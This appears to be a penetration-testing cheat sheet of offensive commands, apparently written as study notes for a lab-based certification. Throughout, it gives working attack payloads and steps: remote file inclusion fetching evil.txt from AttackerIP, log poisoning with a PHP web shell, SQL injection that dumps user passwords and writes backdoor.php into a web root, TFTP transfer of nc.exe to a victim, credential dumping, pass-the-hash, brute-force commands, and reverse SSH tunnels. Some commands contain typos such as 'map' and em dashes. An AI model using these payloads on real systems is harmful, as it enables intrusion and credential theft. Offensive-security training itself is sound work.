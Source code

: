 # Exploitation
_Finding Public Exploits:_  
www.securityfocus.com/vulnerabilities    
www.exploit-db.com

`searchsploit <keyword>` #Search exploit-db by keyword  
`cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c}` . #copy found exploit to root directory

### **Compiling** .  
`i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe` #compile Windows code on Linux .      
`wine exploit.exe` #Run Windows executable on Linux

_Convert Python Exploit to Win Exe_  
#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
`python pyinstaller.py —onefile ms11-080.py`

### **File Transfers**  
_TFTP_  
#Attacker  
`mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  `

#Victim  
`tftp -i AttackerIP GET nc.exe  `

_PS File Transfer_  
#code sequence in powershell-download file  
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1` #Bypass Execution Policy

### **Web Application Attacks**  
LFI/RFI #usually in poor php code .  
_RFI_  
`VulnParam=http://AttackerIP/evil.txt%00` #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

`$ tail -f /var/log/apache2/access.log` #track traffic from our apache web server hosting evil.txt

_LFI_   
#Contaminate the web server log with a PHP backdoor .  
`$ nc -nv TargetIP 80 ` 
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
`&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00`

_SQL Injection_   
“`Any’ or 1=1 limit 1;#`" #any username, always true statement, limit one account, end statement while ignoring rest of needed arguments   

Error-based Enumeration Example:  
`test.php?id=1 union order by <recursive #s>` #figure out how many columns (lets assume 6 columns)  
`test.php?id=1 union select 1,2,3,4,5,6` #see where each column is on the page   
`test.php?id=1 union select 1,2,3,4,@@version,6` #use 5th column position to print server version   
`test.php?id=1 union select 1,2,3,4,user(),6` #displays current DB user into 5th column field   
`test.php?id=1 union select 1,2,3,4,table_name,6 FROM information_schema.tables` #all tables   
`union select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name=‘users’` #Extract all column names from the specific table of interest   
`union select 1,2,name,4,password,6 FROM users` #dump creds from users table   

`union all select 1,2,3,4,”<?php echo shell_exec($_GET[‘cmd’]);?>”,6 into OUTFILE ‘c:/xampp/htdocs/backdoor.php’` #add backdoor file to the Windows web root   
`TargetIP/backdoor.php?cmd=ipconfig` #access the uploaded backdoor    

SQLMap   
`sqlmap -u http://TargetIP —crawl=1` #sqlmap crawl web app and search for vulns   

### **Password Attacks**
`FGDUMP.exe` #with admin privs on a local machine, download and run fgdump.exe to display hashes.  
`WCE.exe / WCE64.exe -w` #run locally on a system to display cleartext admin password   

_Pass-the-Hash_   
`pth-` #displays all the tools in suite that can use a hash for authentication   
`export SMBHASH=<HashValue>` #sets the SMBHASH variable with found hash value   
`pth-winexe -U administrator% //TargetIP cmd` #pop cmd on target server with empty admin pw (using hash variable set)   

_Password Audit Tools_   
`Medusa -h TargetIP -u admin -P password-file.txt -M http -m DIR:/admin -T 20` #Medusa   
`Ncrack -v -f —user administrator -P password-file.txt rdp://TargetIP,CL=1` #Ncrack for RDP brute force   
`Hydra -l admin -P password-file.txt -v TargetIP ftp` #Hydra   

### **Tunneling/Redirection**   
#Portforwarding using rinetd
`Nano /etc/rinetd.conf`   
#Configure bindaddress (our proxy address), bind port, connectaddress and connect port   
Ex. `KaliIP 80 TargetIP 3389`   
#Targeting the proxy IP on port 80 from internal network host with only 80/443 outbound allowed will instead connect to target IP RDP.  
`/etc/init.d/rinetd restart`

_Reverse SSH Tunnel from Internal Victim to Attacker_    
#upload plink.exe to victim machine (ssh client for windows)   
`C:\>plink -l root -pw password <AttackerIP> -R 3390:127.0.0.1:3389` #tunnels local port 3389 to port 3390 on attacker machine   
#on kali, `rdesktop 127.0.0.1:3390`, will connect to 3389 on internal server   

_SSH Dynamic Port Forwarding_   
#set local listening port and tunnel traffic to any remote destination through socks proxy   
`ssh -D 8080 root@admin.megacorpone.com` #create socks4 proxy on local attack box to route traffic through dmz server   
#with proxychains forward traffic to the non-routable dmz network via the socks4 proxy   
#configure proxychains, nano /etc/proxychains.conf   
`proxychains map -p 3389 -sT -Pn InternalDMZNetwork —open`
